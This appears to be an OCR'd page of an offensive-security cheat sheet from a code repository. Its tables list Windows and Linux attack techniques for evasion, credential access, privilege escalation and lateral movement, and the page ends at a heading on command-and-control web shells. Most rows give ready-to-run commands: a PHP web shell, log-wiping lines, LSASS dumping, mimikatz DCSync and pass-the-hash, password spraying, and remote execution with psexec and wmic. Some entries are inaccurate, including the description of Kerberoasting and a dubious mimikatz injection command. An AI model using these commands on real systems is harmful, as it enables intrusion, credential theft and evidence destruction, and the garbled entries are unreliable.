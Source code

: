 |**Tactic**|**Technique**|**Description**|**Examples & Tools**|
|---|---|---|---|
|**Evasion**|**Token Impersonation (Windows/Linux)**|Stealing or forging authentication tokens to impersonate higher-privileged accounts.|Using `mimikatz` or `Incognito` tools to steal or inject tokens.|
||**Process Injection (Windows/Linux)**|Injecting malicious code into legitimate processes to evade antivirus detection.|`mimikatz.exe "privilege::debug" "inject::process lsass.exe"`|
||**Obfuscated Files or Information**|Using techniques to obscure the contents of files or obfuscate malware code.|Using packers, encrypting payloads, or hiding scripts in hidden file formats.|
||**Web Shell (Windows/Linux)**|Deploying web shells on compromised web servers to maintain persistence.|`<?php echo shell_exec($_GET['cmd']); ?>`|
||**Indicator Removal on Host**|Deleting logs, renaming tools, or wiping evidence of the attack to avoid detection.|`wevtutil cl System` (Windows), `rm /var/log/auth.log` (Linux)|

|**Tactic**|**Technique**|**Description**|**Examples & Tools**|
|---|---|---|---|
|**Credential Access**|**LSASS Dumping (Windows)**|Dumping the memory of LSASS to extract plaintext credentials or hashes.|`procdump.exe -ma lsass.exe lsass_dump.dmp`, `mimikatz`|
||**Kerberoasting (Windows)**|Extracting Kerberos ticket-granting tickets (TGT) for offline brute-forcing.|`GetUserSPNs.py -request -dc-ip <DomainController_IP>`|
||**Credential Dumping via DCSync (Windows)**|Mimicking domain controller behavior to retrieve password hashes using `Mimikatz` or `secretsdump.py`.|`Invoke-Mimikatz -Command 'lsadump::dcsync /user:administrator'`|
||**Password Spraying (Windows/Linux)**|Attempting to brute force multiple accounts using a common password.|`hydra -L userlist.txt -P passwordlist.txt <service>`|
||**Keylogging (All Platforms)**|Installing a keylogger to capture user inputs and steal credentials.|Using `malware` or custom scripts to capture keystrokes.|

|**Tactic**|**Technique**|**Description**|**Examples & Tools**|
|---|---|---|---|
|**Privilege Escalation**|**Token Impersonation**|Stealing or creating access tokens to impersonate higher-privileged users.|`Invoke-TokenManipulation -Impersonate -User admin`|
||**Exploitation of Vulnerabilities (CVE)**|Exploiting known vulnerabilities to escalate privileges (e.g., CVE-2021-1675 PrintNightmare).|Example: `exploit/windows/local/printnightmare`|
||**Sudo and SUID Abuse (Linux)**|Abusing misconfigured SUID files or improper sudo settings for privilege escalation.|`sudo -u#-1 /bin/bash` (misconfigured sudoers)|
||**DLL Hijacking (Windows)**|Abusing DLL search order to load malicious DLLs under the context of a trusted application.|Placing malicious DLL in the directory of a vulnerable app.|
||**Weak Permission Abuse**|Exploiting weak permissions on critical files or services to modify them and gain higher privileges.|`chmod 777 /etc/shadow`, modifying executable scripts or system services.|

|**Tactic**|**Technique**|**Description**|**Examples & Tools**|
|---|---|---|---|
|**Lateral Movement**|**PsExec (Windows)**|Remotely executing commands on other systems via SMB using PsExec.|`psexec \\target -u administrator -p password cmd`|
||**WMI Execution (Windows)**|Using WMI to execute commands on remote systems within the same network.|`wmic /node:remotehost process call create "cmd.exe /c whoami"`|
||**Remote Desktop Protocol (RDP)**|Using RDP to access remote systems and move laterally across a network.|`xfreerdp /u:user /p:password /v:victim_ip`|
||**Pass-the-Hash (Windows)**|Using stolen NTLM hashes to authenticate without needing plaintext credentials.|`mimikatz "sekurlsa::pth /user:Administrator /domain:corp /ntlm:<hash>"`|
||**SSH Hopping (Linux)**|Using stolen SSH keys or credentials to move laterally across Linux machines.|`ssh -i ~/.ssh/id_rsa user@target`|

### **Command and Control (C2) Techniques**

Command and Control (C2) techniques allow attackers to maintain persistent control over compromised systems within a target network, directing malware operations, exfiltrating data, or triggering further attacks. Below are various C2 techniques along with relevant commands and attack scenarios:

#### **Web Shells**
